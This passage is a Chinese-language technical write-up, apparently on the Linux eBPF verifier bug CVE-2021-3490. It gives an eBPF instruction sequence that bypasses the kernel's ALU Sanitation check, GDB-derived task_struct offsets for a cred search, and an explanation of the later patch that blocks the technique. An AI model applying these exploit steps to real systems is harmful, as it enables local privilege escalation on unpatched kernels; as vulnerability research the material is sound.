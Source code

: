 ```
*patch++ = BPF_MOV32_IMM(BPF_REG_AX, aux-&gt;alu_limit - 1);
```

这个漏洞的存在，导致`ALU Sanitation`机制失效了，因为 `alu_limit` 变得很大了，检测不到越界访问，所以之前那些公开的exp都能利用成功。但是这个漏洞被修复以后，就需要绕过这个限制，需要多加5条指令来绕过该机制。

**绕过该ALU Sanitation**：`r7`指向map，`r6`是`verifier`以为是0而运行时为1的那个值。需要在r7指针进行运算前，使`alu_limit != 0`。
- （1）`r8 = r6` 先拷贝一下—— `r8  verifier:0  runtime:1`。
- （2）`r7 += 0x1000`，map指针加上一个常量，以设置`alu_limit=0x1000`，这样就能绕过运行时的`ALU Sanitation`。
- （3）`r8 = r8 * 0xfff`—— `r8 verifier:0  runtime:0xfff`。
- （4）`r7 -= r8`， 由于`verifier`以为r8等于0，所以`alu_limit`保持不变。
- （5）`r7 -= r6` —— `r7 verifier:map+0x1000  runtime:map`。
**注意**：
<li>创建map时必须足够大，调用`syscall(__NR_BPF, BPF_MAP_CREATE, ...)`时第3个参数 `bpf_attr-&gt;value_size`要大于0x1000，不然执行第2条指令时就会报指针越界的错误。
<pre><code class="lang-c hljs cpp">        BPF_MOV64_REG(BPF_REG_8, BPF_REG_6),                     // 1-1. (bf) r8 = r6  BPF_REG_3 = BPF_REG_6   !!! 1-1 -&gt; 1-5  是为了绕过alu_limit的限制
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_7, 0x1000),                // 1-2. (07) r7 += 0x1000                !!! 注意，map不能过小，小于0x1000 就报错
        BPF_ALU64_IMM(BPF_MUL, BPF_REG_8, 0xfff),                // 1-3. verifier: r8=0;    runtime: r8=0x1000-1
        BPF_ALU64_REG(BPF_SUB, BPF_REG_7, BPF_REG_8),            // 1-4. r7 -= r8
        BPF_ALU64_REG(BPF_SUB, BPF_REG_7, BPF_REG_6),             // 1-5. r7 -= r6
</code></pre>
</li>
<li>和`Linux v5.11` 版本相比，还需要修改cred search的相关偏移：
<pre><code class="lang-bash hljs">gef➤  p/x &amp;(*(struct task_struct *)0)-&gt;pid
$9 = 0x918
gef➤  p/x &amp;(*(struct task_struct *)0)-&gt;cred
$10 = 0xad8
gef➤  p/x &amp;(*(struct task_struct *)0)-&gt;tasks
$11 = 0x818
</code></pre>
</li>
## 4. 漏洞利用 Linux v5.11.16以后的版本

**特点**：目前无法绕过最新的`ALU Sanitation`保护机制。2021年4月`ALU Sanitation`引入新的 patch—[commit 7fedb63a8307](https://git.kernel.org/pub/scm/linux/kernel/git/bpf/bpf.git/commit/?id=7fedb63a8307dda0ec3b8969a3b233a1dd7ea8e0)，新增了两个特性。
- 一是`alu_limit`计算方法变了，不再用指针寄存器的位置来计算，而是使用offset寄存器。例如，假设有个寄存器的无符号边界是 `umax_value = 1, umin_value = 0`，则计算出 `alu_limit = 1`，表示如果该寄存器在运行时超出边界，则指针运算不会使用该寄存器。
<li>二是在runtime时会用立即数替换掉 `verifier` 认定为常数的寄存器。例如，`BPF_ALU64_REG(BPF_ADD, BPF_REG_2, EXPLOIT_REG)` ，`EXPLOIT_REG`被verifier认定为0，但运行时为1，则 将该指令改为 `BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, 0)`。这个补丁本来是为了防侧信道攻击，同时也阻止了 `CVE-2021-3490` 漏洞的利用。
<pre><code class="lang-c hljs cpp">// 以下补丁可看出，如果不确定offset寄存器是否为常量，则根据其alu_limit进行检查；如果确定其为常量，则用其常量值将其操作patch为立即数指令。
bool off_is_imm = tnum_is_const(off_reg-&gt;var_off);
alu_state |= off_is_imm ? BPF_ALU_IMMEDIATE : 0;
isimm = aux-&gt;alu_state &amp; BPF_ALU_IMMEDIATE;
...
if (isimm) `{`
        *patch++ = BPF_MOV32_IMM(BPF_REG_AX, aux-&gt;alu_limit);
    `}` else `{`
         // Patch alu_limit check instructions
         ....
     `}`
</code></pre>
</li>
检查发现，v5.11.17 已打该补丁，v5.11.16 未打该补丁。所以 **v5.11.16 以上版本的内核就无法利用漏洞进行越界读写**，不知道以后能不能绕过这个限制。
